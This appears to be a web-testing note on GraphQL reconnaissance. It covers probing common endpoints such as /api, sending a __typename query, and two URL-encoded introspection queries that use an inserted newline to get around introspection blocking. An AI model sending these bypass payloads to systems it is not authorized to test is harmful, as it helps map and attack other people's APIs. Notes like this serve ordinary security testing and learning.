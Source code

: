 If the GraphQL endpoint is hidden, attempt to find it using various common endpoints (/api, /graphql, etc..). If found, send a universal query:

```json
/api?query=query{__typename}
```

![[Query.png]]

>[!info]
>Try sending it as both a GET request (query=.....) and a POST request.

Try sending an introspection query and test if it is blocked or not:

![[Intro Disallowed.png]]

Attempt various endpoint bypasses such as newlines (%0A). spaces (%20) or commas (%2c). Try to overcome the introspection defenses via various URL encoded queries such as:

```bash
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

Or the following which uses a newline:

```bash
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
